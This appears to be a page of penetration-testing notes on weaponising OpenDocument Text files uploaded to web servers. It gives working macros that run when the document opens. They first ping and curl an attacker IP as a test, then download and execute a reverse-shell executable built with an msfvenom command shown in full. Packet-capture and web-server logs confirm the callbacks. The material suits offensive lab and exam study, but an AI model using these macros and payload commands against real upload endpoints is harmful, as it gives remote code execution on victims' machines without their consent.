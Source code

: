```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# ODT

The ODT file type is the default document format used by LibreOffice Writer and other OpenDocument-compatible applications. It belongs to the [OpenDocument Text](https://www.libreoffice.org/discover/what-is-opendocument/) (ODT) standard, which defines how word processing documents are structured, stored, and exchanged across different platforms. Internally, an ODT file is **a compressed ZIP archive that contains multiple XML-based files and directories**. These components define the document’s content, formatting, metadata, and embedded elements such as images or macros. Because of this structure, an ODT can be unpacked with standard archive utilities and examined directly, making it easier to analyze or manipulate at a granular level.

## Macros

When there is upload functionality on a webserver accepting `.odt` files, macros can be leveraged to achieve RCE. Simple payloads, like pingbacks and `GET` requests, can used as a test:

1. Create a basic macro (1) under the document's name (2).
2. Try some testing payloads first, such as pingbacks and `GET` requests (3).
3. Make the macro execute as soon as the document opens (4 & 5).

<figure><img src="../../.gitbook/assets/odt_macro.png" alt=""><figcaption></figcaption></figure>

```vba
Sub Main
	' Ping the attacking host one time
	Shell("cmd /c ping -n 1 192.168.45.241")
	' Wait for two seconds
	Wait(200)
	' Send a GET request to an attacker-controlled webserver 
	Shell("cmd /c curl 'http://192.168.45.241/test'")
End Sub
```

```bash
# Test pingback
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:05:27.230793 IP craft > 192.168.45.241: ICMP echo request, id 1, seq 1, length 40
22:05:27.230891 IP 192.168.45.241 > craft: ICMP echo reply, id 1, seq 1, length 40
​
# Test HTTP GET request
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.156.169 - - [16/Aug/2025 22:07:44] code 404, message File not found
192.168.156.169 - - [16/Aug/2025 22:07:44] "GET /test HTTP/1.1" 404 -
```

Once the test payloads are validated, they can mofidied as desired:

{% code overflow="wrap" %}
```bash
# Create a reverse shell payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.241 LPORT=443 -f exe -o revshell_443.exe
```
{% endcode %}

{% code overflow="wrap" %}
```vba
Sub Main
	' Download the payload on the target
	Shell("cmd /c 'curl http://192.168.45.241:443/revshell.exe' -o 'c:\windows\temp\revshell.exe'")
	' Wait for five seconds to ensure the payload has been downloaded
	Wait(5000)
	' Execute the payload
	Shell("cmd /c 'c:\windows\temp\revshell.exe'")
End Sub
```
{% endcode %}
